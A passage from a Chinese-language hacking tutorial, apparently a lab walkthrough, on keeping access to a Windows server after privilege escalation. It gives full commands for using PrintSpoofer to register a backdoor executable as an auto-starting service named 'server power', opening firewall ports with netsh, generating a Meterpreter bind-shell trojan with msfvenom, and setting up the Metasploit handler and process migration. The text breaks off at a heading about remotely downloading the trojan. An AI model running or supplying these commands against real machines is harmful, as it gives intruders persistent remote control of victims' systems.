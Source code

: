 ```
PrintSpoofer.exe -i -c "sc create \"server power\" binpath= \"C:\ProgramData\8899.exe""
PrintSpoofer.exe -i -c "sc description \"server power\" \"description\""
PrintSpoofer.exe -i -c "sc config \"server power\" start= auto"
启动后门
PrintSpoofer.exe -i -c "net start \"server power\""
```

3、开启防火墙指定端口释放

因为有防火墙拦截 先添加一个 8899 端口 

```
PrintSpoofer.exe -i -c "netsh firewall add portopening tcp 8899 msf"
```

4、msf 生成正向后门并执行后门

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set RHOST 192.168.59.4
set lport 8899
exploit
启动后门
PrintSpoofer.exe -i -c "net start \"server power\""
```

5、自动迁移进程

```msf
run post/windows/manage/migrate
```

### 实际操作

当做 12server 与外网相通

1、开启防火墙指定端口释放

```bash
PrintSpoofer.exe -i -c "netsh firewall add portopening tcp 4321 msf"
```

2、msf生成正向木马并监听

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=192.168.0.104 lport=4321 -f exe -o 4321.exe
```

```msf
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 192.168.0.104
set lport 4321
exploit
```

3、远程下载msf正向木马
